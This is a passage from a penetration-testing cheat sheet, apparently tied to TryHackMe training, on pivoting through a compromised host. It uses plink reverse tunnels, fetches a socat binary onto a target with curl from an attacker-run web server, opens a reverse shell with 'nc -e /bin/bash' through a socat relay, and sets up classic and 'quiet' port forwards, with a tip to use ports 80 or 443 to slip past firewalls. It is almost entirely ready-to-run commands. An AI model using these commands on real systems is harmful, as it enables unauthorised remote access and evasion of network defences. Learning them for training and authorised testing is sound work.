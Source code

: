 Run this command on the distant windows server
```shell=
cmd.exe /c echo y | .\plink.exe -R <local-port>:<remote-ip>:<remote-port> <local-user>@<local-ip> -i <keyfile> -N
```

#### Socat

[Linux static binaries](https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat)

[Windows static binaries](https://sourceforge.net/projects/unix-utils/files/socat/1.7.3.2/socat-1.7.3.2-1-x86_64.zip/download)

Check [here](https://tryhackme.com/room/introtoshells) for encrypted shells and custom compilation.

On your local machine run `sudo python3 -m http.server 80`

Then on target `curl <local-ip>/socat -o /tmp/socat-<local-username> && chmod +x /tmp/socat-<local-username>`

And now you have a socat binary on the target.

##### Reverse shell relay

Now let's connect back to our own machine from the target.

To do that, first start a listener on your local machine `sudo nc -lvnp <local-port>`.
> Good port to use to bypass firewall are 80 or 443

Next connect with `socat` from the target : `./socat tcp-l:<relay-port> tcp:<local-ip>:<local-port> &`

Now it's time to create a reverse shell to the newly open port `relay-port` on the target. Run the following command on the target server : `nc 127.0.0.1 <relay-port> -e /bin/bash`

The problem with this method is that it opens a port on the relay server, for a more quiet method see the next section.

##### Port forwarding - Classic

Then create the port forward run the next command on your local machine : `./socat tcp-l:<relay-port>,fork,reuseaddr tcp:<target-ip>:<target-port> &`

Now the `distant-port` should now be forwarded to the relay server meanning that you can access the distant service from `relay-ip:relay-port`

##### Port forwarding - Quiet

First run this on your local machine `socat tcp-l:<local-port1> tcp-l:<local-port2>,fork,reuseaddr &`

Then run this on the relay server `./socat tcp:<local-ip>:<local-port1> tcp:<target-ip>:<target-port>,fork &`

Now the `target-port` should now be forwarded to localhost meanning that you can access the distant service from `localhost:local-port2`.

To stop the port forwarding you have to run the `jobs` command and the kill all socat processes using `kill %<job-bumber>`
